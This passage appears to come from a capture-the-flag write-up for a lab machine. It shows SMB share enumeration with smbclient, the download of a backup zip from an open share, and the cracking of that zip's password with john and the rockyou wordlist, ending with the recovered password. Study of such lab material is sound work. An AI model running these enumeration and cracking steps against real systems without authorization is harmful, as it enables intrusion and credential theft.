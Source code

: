 We can test those folders:
{% highlight bash %}
> smbclient \\\\10.10.11.152\\ADMIN$
Password for [WORKGROUP\zeropio]:
tree connect failed: NT_STATUS_ACCESS_DENIED

> smbclient \\\\10.10.11.152\\C$    
Password for [WORKGROUP\zeropio]:
tree connect failed: NT_STATUS_ACCESS_DENIED

> smbclient \\\\10.10.11.152\\IPC$
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*

> smbclient \\\\10.10.11.152\\NETLOGON
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*

> smbclient \\\\10.10.11.152\\SYSVOL
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
{% endhighlight %}

Finally, **Shares** have some files:
{% highlight bash %}
> smbclient \\\\10.10.11.152\\Shares
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 17:39:15 2021
  ..                                  D        0  Mon Oct 25 17:39:15 2021
  Dev                                 D        0  Mon Oct 25 21:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 17:48:42 2021
{% endhighlight %}
We download all of them.

### zip
If we try to unzip the file:
{% highlight bash %}
> unzip winrm_backup.zip                
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
{% endhighlight %}

We need to break it with **john**:
{% highlight bash %}
> sudo john --format=PKZIP --wordlist=/usr/share/wordlists/rockyou.txt zip-hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**supremelegacy**    (winrm_backup.zip/legacyy_dev_auth.pfx)
{% endhighlight %}
